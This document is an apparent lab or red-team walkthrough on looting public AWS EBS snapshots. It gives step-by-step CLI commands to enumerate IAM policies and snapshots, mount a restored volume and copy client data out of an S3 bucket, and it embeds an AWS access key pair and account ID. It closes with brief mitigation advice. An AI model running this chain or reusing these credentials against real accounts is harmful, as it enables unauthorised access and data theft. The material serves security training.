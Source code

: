 # Loot Public EBS Snapshots

This documentation provides a step-by-step guide for looting public EBS snapshots, starting from basic AWS credentials and escalating access to extract sensitive data. This guide is intended for ethical red team engagements and educational purposes.

---

## Table of Contents

1. [Prerequisites](#prerequisites)
2. [Configure AWS CLI](#configure-aws-cli)
3. [Identify IAM User Context](#identify-iam-user-context)
4. [Enumerate User Policies](#enumerate-user-policies)
5. [Enumerate EBS Snapshots](#enumerate-ebs-snapshots)
6. [Check Snapshot Permissions](#check-snapshot-permissions)
7. [Exfiltrate Public EBS Snapshots](#exfiltrate-public-ebs-snapshots)
8. [Discover Secrets](#discover-secrets)
9. [Defense Recommendations](#defense-recommendations)

---

## 1. Prerequisites

- **AWS CLI** installed on your system.
- **Basic Linux command line knowledge**.
- AWS credentials for enumeration.

---

## 2. Configure AWS CLI

Set up the AWS CLI with the provided credentials. **Do not share your credentials publicly.**

```bash
aws configure
```

When prompted, enter the following placeholder values:

- **AWS Access Key ID**: `AKIARQVIRZ4UCZVR25FQ`
- **AWS Secret Access Key**: `0rXFu1r+KmGY4/lWmNBd6Kkrc9WM9+e9Z1BptzPv`
- **Default region name**: `us-east-1`
- **Default output format**: `json`

---

## 3. Identify IAM User Context

Check your current IAM user context:

```bash
aws sts get-caller-identity
```

This reveals the IAM user and AWS account ID.

---

## 4. Enumerate User Policies

List attached user policies for the IAM user `intern`:

```bash
aws iam list-attached-user-policies --user-name intern
```

### Get Policy Details

Retrieve details of the `PublicSnapper` policy:

```bash
aws iam get-policy --policy-arn arn:aws:iam::104506445608:policy/PublicSnapper
```

Check the latest policy version (e.g., `v9`):

```bash
aws iam get-policy-version --policy-arn arn:aws:iam::104506445608:policy/PublicSnapper --version-id v9
```

---

## 5. Enumerate EBS Snapshots

List all EBS snapshots owned by the AWS account `104506445608`:

```bash
aws ec2 describe-snapshots --owner-ids 104506445608 --region us-east-1
```

---

## 6. Check Snapshot Permissions

Check the `createVolumePermission` attribute to see if the snapshot is public:

```bash
aws ec2 describe-snapshot-attribute --attribute createVolumePermission --snapshot-id snap-0c0679098c7a4e636 --region us-east-1
```

If the `Group` value is set to `all`, the snapshot is publicly accessible.

---

## 7. Exfiltrate Public EBS Snapshots

### List Public Snapshots

List public snapshots available to your IAM user:

```bash
aws ec2 describe-snapshots --owner-id self --restorable-by-user-ids all --no-paginate --region us-east-1
```

### Create Volume from Snapshot

1. Log in to the AWS Management Console.
2. Navigate to **EC2** > **Snapshots**.
3. Select **Public snapshots**.
4. Filter by **Snapshot ID** (e.g., `snap-0c0679098c7a4e636`).
5. Select the snapshot and choose **Actions** > **Create volume from snapshot**.
6. Create the volume in the appropriate availability zone.

---

## 8. Discover Secrets

### Attach Volume to EC2 Instance

1. Create an EC2 instance in the same availability zone as the volume.
2. Attach the volume to the instance.

### Mount the Volume

SSH into the EC2 instance:

```bash
ssh -i demo.pem ubuntu@<EC2-IP>
```

List storage devices:

```bash
lsblk
```

Mount the volume:

```bash
mkdir disk
sudo mount -t ext4 /dev/xvdf1 disk
```

### Extract Secrets

Navigate to the mounted directory and look for sensitive files:

```bash
cd disk
ls
```

Example: Copy files from an S3 bucket referenced in the secrets:

```bash
aws s3 ls ecorp-client-data
aws s3 cp s3://ecorp-client-data/ecorp_dr_logistics.csv .
```

---

## 9. Defense Recommendations

### Mitigation Steps

- **Avoid creating public EBS snapshots** unless absolutely necessary.
- **Rotate credentials** if exposed.
- **Monitor CloudTrail logs** for snapshot access events.

### Identify Public Snapshots

Use the following command to identify public snapshots:

```bash
aws ec2 describe-snapshots --owner-id self --restorable-by-user-ids all --no-paginate
```

### Further Actions

- **Make snapshots private**.
- **Investigate how the snapshot was made public**.
- **Implement policies to restrict snapshot sharing**.

---
